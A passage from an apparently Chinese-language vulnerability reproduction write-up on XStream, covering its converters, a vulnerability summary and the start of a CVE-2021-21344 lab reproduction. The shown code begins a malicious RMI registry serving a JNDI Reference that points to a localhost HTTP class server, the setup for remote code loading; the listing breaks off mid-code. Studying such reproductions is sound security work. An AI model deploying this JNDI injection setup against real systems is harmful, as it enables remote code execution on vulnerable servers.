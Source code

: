 **总结**  
总而言之，XStream 为 Java 常见的类型提供了不同的转换器，其思路就是通过不同的 converter 来处理序列化数据中不同类型的数据

## 3\. 漏洞汇总

[![](assets/1701612148-376286ee07bd527c30319a4b40e2f0cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230814212046-60b41f10-3aa5-1.png)  
[![](assets/1701612148-b5e8ea56a1a0369d780735d727b28ffc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230814212104-6b6379f6-3aa5-1.png)  
参考：[https://x-stream.github.io/security.html](https://x-stream.github.io/security.html)

## 4\. CVE-2021-21344

**影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**复现**：  
继续使用 JNDI 中用到的 RMI Server：

```bash
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ReferServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7777);

        // 创建Reference对象
        Reference reference = new Reference("test", "test", "http://127.0.0.1:8080/");
        // 由于Reference类没有继承Remote接口, 所以需要使用ReferenceWrapper进行封装
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
```